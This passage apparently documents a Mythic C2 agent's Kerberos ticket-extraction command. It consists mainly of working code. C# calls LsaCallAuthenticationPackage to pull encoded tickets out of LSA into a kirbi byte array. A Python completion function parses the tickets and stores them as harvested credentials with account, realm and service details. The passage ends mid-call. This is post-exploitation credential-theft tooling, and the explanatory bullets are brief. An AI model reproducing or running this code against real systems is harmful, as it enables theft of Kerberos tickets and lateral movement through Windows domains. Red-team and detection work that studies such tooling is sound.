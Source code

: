 #### 6. Ticket Data Extraction
```csharp
var status = WindowsAPI.LsaCallAuthenticationPackageDelegate(lsaHandle, authPackage, requestAndNameHandle, requestPlusNameSize, out HANDLE returnBuffer, out uint returnLength, out NTSTATUS returnStatus);
createdArtifacts.Add(Artifact.WindowsAPIInvoke("LsaCallAuthenticationPackage"));

if (status != NTSTATUS.STATUS_SUCCESS || returnStatus != NTSTATUS.STATUS_SUCCESS)
{
    return (null, $"Failed to submit ticket.\nLsaCallAuthentication returned {status} (0x{WindowsAPI.LsaNtStatusToWinErrorDelegate(status)}) with protocolStatus {returnStatus} (0x{WindowsAPI.LsaNtStatusToWinErrorDelegate(returnStatus)})");
}

var response = returnBuffer.CastTo<KERB_RETRIEVE_TKT_RESPONSE>();

if (response.Ticket.EncodedTicketSize == 0)
{
    WindowsAPI.LsaFreeReturnBufferDelegate(returnBuffer);
    return (null, "No ticket Data to extract");
}

ticket.Kirbi = new byte[response.Ticket.EncodedTicketSize];
Marshal.Copy(response.Ticket.EncodedTicket, ticket.Kirbi, 0, (int)response.Ticket.EncodedTicketSize);
```
- Retrieves encoded ticket data from LSA
- Validates ticket extraction success
- Copies ticket data to byte array
- Handles memory cleanup

#### 7. Completion Function and Credential Processing
```python
async def parse_credentials(task: PTTaskCompletionFunctionMessage) -> PTTaskCompletionFunctionMessageResponse:
    responses = await SendMythicRPCResponseSearch(MythicRPCResponseSearchMessage(TaskID=task.TaskData.Task.ID))
    
    for output in responses.Responses:
        try:
            ticket_out = json.loads(str(output.Response))
            ccache = CCache()
            ccache.fromKRBCRED(base64.b64decode(ticket_out['ticket']))
            
            formattedComment = f"Service: {ccache.credentials[0].__getitem__('server').prettyPrint().decode('utf-8')}\n"
            formattedComment += f"Start: {datetime.fromtimestamp(ccache.credentials[0].__getitem__('time')['starttime']).isoformat()}\n"
            formattedComment += f"End: {datetime.fromtimestamp(ccache.credentials[0].__getitem__('time')['endtime']).isoformat()}\n"
            formattedComment += f"Renew: {datetime.fromtimestamp(ccache.credentials[0].__getitem__('time')['renew_till']).isoformat()}\n"
            
            resp = await SendMythicRPCCredentialCreate(MythicRPCCredentialCreateMessage(
                TaskID=task.TaskData.Task.ID,
                Credentials=[MythicRPCCredentialData(
                    credential_type="ticket",
                    credential=ticket_out['ticket'],
                    account=ccache.credentials[0].__getitem__("client").prettyPrint().decode('utf-8'),
                    realm=ccache.credentials[0].__getitem__("client").prettyPrint().decode('utf-8').split("@")[1],
                    comment=formattedComment,
                )]
```